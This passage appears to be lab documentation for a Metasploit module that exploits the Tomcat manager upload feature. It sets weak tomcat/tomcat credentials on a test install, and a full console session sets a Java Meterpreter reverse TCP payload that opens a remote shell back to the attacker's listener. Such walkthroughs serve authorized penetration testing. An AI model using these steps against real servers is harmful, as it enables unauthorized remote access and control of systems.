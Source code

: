The install was default, other than adding a user during install.  No other options were changed.  The install assgined the new user the role `manager-gui`, which is Tomcat 7+ syntax.
For this exploitation, it was changed to simply `manager`.

#### Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 6.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

```xml
<role rolename="manager"/>
<user username="tomcat" password="tomcat" roles="manager"/>
```

2. Restart Tomcat service

3. Exploit:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set rport 8086
rport => 8086
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 192.168.2.108:8086 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
[*] Executing ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
[*] Undeploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7 ...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3387) at 2017-01-15 19:18:14 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
Meterpreter : java/windows
```

### Tomcat 7 (7.0.73)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.
